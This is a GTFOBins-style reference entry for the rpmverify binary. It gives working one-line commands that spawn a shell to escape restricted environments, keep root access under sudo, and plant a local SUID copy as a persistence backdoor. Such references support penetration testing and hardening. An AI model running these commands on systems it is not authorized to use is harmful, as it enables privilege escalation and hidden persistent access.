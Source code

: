 # GTFOBin: rpmverify

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
rpmverify --eval '%(/bin/sh 1>&2)'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo rpmverify --eval '%(/bin/sh 1>&2)'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which rpmverify) .

./rpmverify --eval '%(/bin/sh 1>&2)'
```